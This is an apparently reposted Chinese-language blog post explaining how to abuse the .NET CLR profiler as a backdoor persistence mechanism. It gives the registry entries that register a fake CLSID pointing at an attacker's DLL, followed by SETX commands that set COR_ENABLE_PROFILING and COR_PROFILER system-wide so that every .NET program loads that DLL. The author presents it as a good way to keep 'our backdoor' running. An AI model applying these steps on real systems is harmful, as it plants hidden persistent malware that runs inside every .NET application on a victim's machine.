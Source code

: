 # CLR

> 原文：[https://www.zhihuifly.com/t/topic/3519](https://www.zhihuifly.com/t/topic/3519)

## CLR

CLR的简述（来自百度百科）

```
CLR(公共语言运行库,Common Language Runtime)和Java虚拟机一样也是一个运行时环境，是一个可由多种编程语言使用的运行环境。CLR的核心功能包括：内存管理、程序集加载、安全性、异常处理和线程同步，可由面向CLR的所有语言使用。并保证应用和底层操作系统之间必要的分离。CLR是.NET Framework的主要执行引擎。 
```

需要注意的是`CLR`能够劫持系统中全部`.net`程序，而且系统默认会调用`.net`程序，从而导致我们的后门自动触发，这是我们后门持久化的一个好的思路，下面来实现一下

修改一下注册表，注册表路径：`HKEY_CURRENT_USER\Software\Classes\CLSID\`，新建子项`{11111111-1111-1111-1111-111111111111}`（名字随便，只要不与注册表中存在的名称冲突就行），然后再新建子项`InProcServer32`，新建一个键`ThreadingModel`，键值为：`Apartment`，默认的键值为我们`dll`的路径

![image](img/fbf82bcba9b1ca75572052b4cc7e4bcf.png)

然后在cmd下设置一下：
**PS：要注册为全局变量，不然只能在当前cmd窗口劫持.net程序**

```
SETX COR_ENABLE_PROFILING= 1 /M
SETX COR_PROFILER= {11111111-1111-1111-1111-111111111111} /M 
```

然后执行一波，效果如下，可以看到已经成功劫持了

![image](img/0720c5b8c35057b7493621f9cc359095.png)
